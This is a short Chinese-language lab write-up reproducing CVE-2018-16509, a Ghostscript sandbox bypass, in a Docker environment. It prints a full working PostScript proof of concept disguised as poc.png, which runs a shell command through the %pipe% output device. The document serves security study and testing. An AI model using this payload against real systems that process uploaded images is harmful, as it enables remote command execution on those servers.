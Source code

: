 ```yaml
---
title: （CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞
id: zhfly2951
---
```


# （CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞

## 一、漏洞简介

该漏洞源于在处理/invalidaccess异常时，程序没有正确的检测‘restoration of privilege（权限恢复）’。攻击者可通过提交特制的PostScript利用该漏洞执行代码。

## 二、漏洞影响

Ghostscript 9.24之前版本

## 三、复现过程

上传poc.png，将执行命令`id > /tmp/success && cat /tmp/success`。此时进入容器`docker-compose exec web bash`，将可以看到/tmp/success已被创建：

**poc.png**

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops 
```

![image](../img/65618c707cb61995c7788dfb39605ee6.png)

## 参考链接

> https://vulhub.org/#/environments/ghostscript/CVE-2018-16509/